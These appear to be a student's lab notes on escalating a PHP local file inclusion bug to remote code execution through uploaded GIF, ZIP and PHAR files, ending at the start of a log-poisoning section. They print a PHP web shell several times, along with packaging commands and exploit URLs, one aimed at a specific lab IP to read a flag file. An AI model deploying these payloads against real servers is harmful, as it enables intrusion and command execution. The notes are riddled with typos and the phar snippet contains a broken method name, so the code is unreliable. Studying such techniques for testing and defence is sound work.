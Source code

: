 Once we've upload our file path, all we need to do is include it through th LFI vulnerability. To include uplaoded file, we need to knwo thew path to our uplaodaded file.
`<img src="/profle_image/shell.gif" class="profile-image" id="profile-image">`

> [!NOTE]
> We can use 'profile/shell.gif' for the file path. If we do not know where the file is uploaded, then we can fuzz for an upload dir, and then fuzz for our uplaoded file.
> To include to our upladed file we used ./profile-image. as in this case the LFI vulnerability does no prefix any dir  before our input.

- ZIP Upload:
There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. We can utilize zip wrapper pro execute PHP code.
[echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php]

> [!NOTE]
> Some uplaod forms may still detect our file as zip archive through content-type and disallow its upload. so this attacks has higher chance of working if the upload file of zip is allowed.
> We added the uploads directory (./profile_images/) before the file name, as the vulnerable page (index.php) is in the main directory.

- Phar Upload:
Is a similar result:
```php
<?php
$phar = new Phar('shell.phar');
$phar -> srartBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar -> setStub('<?php __HALT_COMPILER();?>');
?>
```
[php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg]
[http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id]

Another obsolete LFI/uploads attack worth nothing PHP configurationa and the phpinfo() page is somehow expose [Link](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-phpinfo.html)

- Exercise:
http://83.136.252.13:44893/settings.php
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
Upload the file and after that the URL:
[http://83.136.252.13:44893/index.php?language=./profile_images/shell.gif&cmd=cat%20/2f40d853e2d4768d87da1c81772bae0a.txt]

# Log Poisoning:
The Attacks we'll discuss in the section on the same concept; Writing PHP code in a field we control that gets logged into a log file [poison/contaminte] the log file, and then include that log file execution the PHP code.